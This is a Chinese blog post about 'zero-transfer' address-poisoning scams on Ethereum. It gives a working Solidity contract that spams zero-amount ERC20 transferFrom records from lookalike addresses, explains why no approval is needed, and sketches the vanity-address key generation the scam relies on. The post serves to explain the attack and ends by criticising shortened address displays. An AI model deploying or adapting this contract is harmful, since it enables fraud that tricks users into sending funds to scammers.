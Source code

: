 # 写一个 0 转账攻击合约

## 备注

时间：2024 年 7 月 7 日

作者：[33357](https://github.com/33357)

## 正文

以太坊上有大量转账 Token 数量为 0 的合约，比如这个 https://etherscan.io/address/0x6c5319df4fcca5961d71e117287c76a1f2aad593 。这些合约伪造了首尾相同的地址向用户地址转账，利用了有些人会在转账之前复制上一个地址的习惯来骗取用户资产。这里我会写一个类似功能的合约。

## 合约代码

```javascript
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.25;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ZeroTransferAttack {
    function bacthTransferFrom(
        address[] memory tokenList,
        address[] memory fromList,
        address[] memory toList
    ) external {
        for (uint256 i; i < tokenList.length; i++) {
            IERC20(tokenList[i]).transferFrom(fromList[i], toList[i], 0);
        }
    }
}
```

很多人会奇怪，没有经过 `approve` 也能调用 `transferFrom` 吗？

是的，由于 `ERC20` 合约的 `transferFrom` 方法接受数量为 `0` 的调用，而没有授权的状态就是 `0`。因此没有经过 `approve` 授权也可以调用 `transferFrom` 生成转账记录，这大大降低了进行数量为 0 转账的操作成本。

```javascript
function transferFrom(
    address sender,
    address recipient,
    uint256 amount
) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);

    uint256 currentAllowance = _allowances[sender][_msgSender()];
    require(
      currentAllowance >= amount,
      "ERC20: transfer amount exceeds allowance"
    );
    _approve(sender, _msgSender(), currentAllowance - amount);

    return true;
}
```

## 攻击分析

做数量为 0 转账攻击的门槛其实不在于合约，而是对链上交易数据的爬取和计算首尾相同地址私钥。这需要完整的链上数据收集和分析，并配上有强大的 hash 计算能力。

当一个地址发起一笔转账后可以跟踪并迅速计算出首尾相同地址的私钥，调用 `transferFrom` 生成一笔发起人首尾地址相同、目标地址一样、转账时间相近的记录。如果用惯了传统的金融 APP，对复制上一个交易没有警惕性，就很容易会上这种当。

## 总结

很多 APP 为了方便用户简化了地址显示，一定程度上也给了骗子可趁之机。市场也许需要一个既方便用户，又具有唯一性的地址显示方式。
